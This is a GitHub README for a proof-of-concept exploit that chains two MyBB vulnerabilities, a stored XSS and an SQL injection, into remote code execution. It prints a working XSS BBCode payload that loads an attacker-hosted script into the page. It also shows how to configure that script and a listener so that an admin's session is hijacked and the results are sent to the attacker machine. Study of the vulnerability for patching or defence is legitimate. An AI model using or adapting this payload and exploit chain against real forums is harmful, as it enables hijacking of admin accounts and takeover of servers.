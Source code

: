 # Mybb-XSS_SQL_RCE-POC
Mybb associate CVE-2021-27890 &amp; CVE-2021-27889 to RCE poc
</br>

**Before Use:**

There are two files here:  1.js and attack_listen.py

You should modify these two file:

**1.js:**

modify the mybb forum url and attack url:

```js
var bashurl = 'http://192.168.92.164/mybb/mybb-mybb_1825' #mybb forum url
var attack_url = 'http://192.168.92.165:8080/attack_success' #change the attack machine ip.should keep the same with the attack_listen.py
```
</br>

**attack_listen.py**

modify the attack host and attack port:

```python
attack_host = '192.168.92.165'
attack_port = 8080
```

</br>

**Usage:**

CVE-2021-27889 is xss. You should inject the following payload in "**New Post Thread**" or "**Reply**" or "**Private Messages**" before do the attack.In this demo,I send the payload to "New Post Thread"

*notice that the **192.168.92.165** is the evil server ip,You should change it.*

```html
[img]http://evil.com/xx(http://evil.com/onerror=xs1=String.fromCharCode(47);xa1=document.createElement(/script/.source);xa1.src=xs1+xs1+/192.168.92.165/.source+xs1+/1.js/.source;document.getElementById(/header/.source).append(xa1);//[/img]
```

![](./img/1.png)

</br>

Now Our evil js **1.js** is injected successful.Then we should wait an Admin browsed this Post with loggined admin page cookie.

*Notice that the Admin user have no necessary loggin the forum page.*

</br>

In our waiting time,We should run the "attack_listen.py" in our attack machine, To identify if the Admin user be attacked.

```shell
python3 attack_listen.py
```

</br>

When the Admin user browsed the evil post,the evil js will do the attack:

![](./img/2.png)

</br>

We can recive the information at our attack machine:

![](./img/3.png)



![](./img/4.png)
